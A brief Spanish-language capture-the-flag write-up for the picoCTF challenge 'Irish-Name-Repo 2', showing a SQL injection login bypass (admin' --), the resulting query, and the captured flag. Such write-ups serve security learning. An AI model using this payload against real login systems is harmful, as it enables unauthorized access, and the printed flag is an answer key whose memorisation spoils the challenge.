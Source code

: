 # Irish-Name-Repo 2

## Objetivo 
Hay un sitio web en funcionamiento en https://jupiter.challenges.picoctf.org/problem/52849/ (enlace). Alguien ha pasado por alto el inicio de sesión antes y ahora se está fortaleciendo. ¡Intenta ver si aún puedes iniciar sesión! o http://jupiter.challenges.picoctf.org:52849

## Solución 
Inyectamos el siguiente codigo SQL en la parte de usuario y password para ver como actua el sistema codificando nuestra carga util: admin'= -- y cambiamos en esta parte del codigo el value='0' por value='1'

username: admin' --
password: admin' --
SQL query: SELECT * FROM users WHERE name='admin' --' AND password='admin' --'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}

## Notas
Al probar inyecciones de codigo podemos ver y evaluar el comportamiento de la pagina a la hora de querer acceder a alguna parte del sistema.

## Referencias